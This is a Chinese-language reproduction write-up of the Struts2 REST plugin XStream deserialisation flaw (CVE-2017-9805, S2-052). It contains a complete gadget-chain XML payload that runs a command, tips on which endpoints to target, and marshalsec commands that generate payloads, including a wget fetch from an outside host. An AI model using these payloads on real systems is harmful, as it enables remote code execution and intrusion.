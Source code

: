 （CVE-2017-9805）s2-052
=======================

一、漏洞简介
------------

Struts2-Rest-Plugin是让Struts2能够实现Restful
API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：

  扩展名   Content-Type                        解析方法
  -------- ----------------------------------- ------------------------
  xml      application/xml                     xstream
  json     application/json                    jsonlib或jackson(可选)
  xhtml    application/xhtml+xml               无
  无       application/x-www-form-urlencoded   无
  无       multipart/form-data                 无

jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag
name指定需要实例化的类名：

    <classname></classname>
    //或者
    <paramname class="classname"></paramname>

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedgetType。

> 总得来说，用了Struts2-Rest-Plugin插件，这个插件是根据Content-Type或者扩展名来选择解析方法，xstream在默认情况下是可以引入任意对象的，所以他在处理xml的时候会发生RCE（xstream处理xml数据时，未对数据做任何过滤，在反序列化将xml数据转换成object时导致的RCE）。利用起来就是改Content-Type或扩展名
> .xml application/xml 发恶意xml

二、漏洞影响
------------

Struts 2.1.2 - Struts 2.3.33

Struts 2.5 - Struts 2.5.12

三、复现过程
------------

POC
---

**没回显 Response 500 但命令执行**

    POST /orders/3 HTTP/1.1
    Host: 10.17.14.18:8081
    Content-Length: 1655
    Cache-Control: max-age=0
    Origin: http://www.0-sec.org:8081
    Upgrade-Insecure-Requests: 1
    Content-Type: application/xml
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.96 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://10.17.14.18:8081/orders/3/edit
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
    Cookie: JSESSIONID=249144A9BEB141072470A76C2A61D663
    Connection: close

    <map> 
    <entry> 
    <jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
    </entry> 
    </map>

访问ip：port 直接到/orders 你可以直接change method 然后加上body
改Content-type 为xml Response status code 500 执行成功了（不要怀疑
我也怀疑 后来看了一下文件 是真的）

也可以编辑之后保存 会有一个POST /orders/5 或者其他数字 有body的 改掉body
改Content-type 为xml 也可以执行

编辑完之后还会有一个/orders.xhtml?statusCode=303 change method 删掉body
改Content-type 为xml 文件名就不用改了 不然404了

> payload生成> 下载 https://github.com/ianxtianxt/marshalsec> mvn clean package -DskipTests> java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream ImageIO
> wget www.0-sec.org -O /tmp/1.html \>1.txt> 注：针对XStream支持很多种Payload，找一个Struts2也支持的即可,需要找到Struts2库中适用的gedget（事实上我找了，都试了，只有ImageIO好使，文章的都是骗人了，哭了）
